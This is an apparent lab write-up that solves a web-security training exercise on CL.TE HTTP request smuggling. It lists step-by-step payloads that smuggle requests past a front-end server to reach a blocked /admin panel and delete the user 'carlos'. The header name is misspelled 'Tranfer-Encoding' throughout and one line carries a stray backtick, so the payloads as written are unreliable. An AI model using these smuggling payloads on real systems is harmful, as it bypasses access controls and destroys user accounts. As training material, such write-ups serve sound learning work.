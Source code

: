 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`

---

### step 1

send homepage (/) to repeater
change get request to post request
test payload

```
Tranfer-Encoding: chunked

0
GET /post?postId=5 HTTP/1.1
foo: x
```

![screenshot](./images/images_lab5/lab6_homepage_into_repeter_test_payload.jpg)

### step2

try to access admin

```
Tranfer-Encoding: chunked

0
GET /admin HTTP/1.1`
foo: x
```

![screenshot](./images/images_lab5/lab6_access_admin_page.jpg)

### step3

add payload

```
Tranfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_admin_payload.jpg)

### step4

```
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_payload_to_delete_carlos_account.jpg)

### step5

send request

![screenshot](./images/images_lab5/lab6_delete_carlos_account.jpg)

### step6

lab solved

![screenshot](./images/images_lab5/lab6_test_to_access_admin.jpg)
